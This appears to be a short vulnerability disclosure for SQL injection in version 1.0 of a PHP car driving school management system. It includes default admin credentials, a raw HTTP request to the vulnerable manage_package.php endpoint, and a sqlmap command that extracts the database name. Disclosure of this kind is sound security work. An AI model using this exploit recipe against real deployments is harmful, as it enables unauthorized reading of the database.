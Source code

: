 ### SQL injection vulnerability exists in Sourcecodester Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route:/cdsms/admin/packages/manage_package.php?id=1

related code file:manage_package.php

injection parameter:$_GET['id']

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the manage_package.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240725211549345](assets/image-20240725211549345.png)

#### 2.Vulnerability verification and exploit

After admin/admin123 logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.Note that you need to modify the deployed IP address, port, and cookie information in the data packet according to the environment.

```
GET /cdsms/admin/packages/manage_package.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/cdsms/admin/?page=packages
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1721700678; PHPSESSID=32r6u9afm833p0abeg632sl4id
Connection: close

```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240725211450501](assets/image-20240725211450501.png)

Successfully obtained the injected payload and database name.
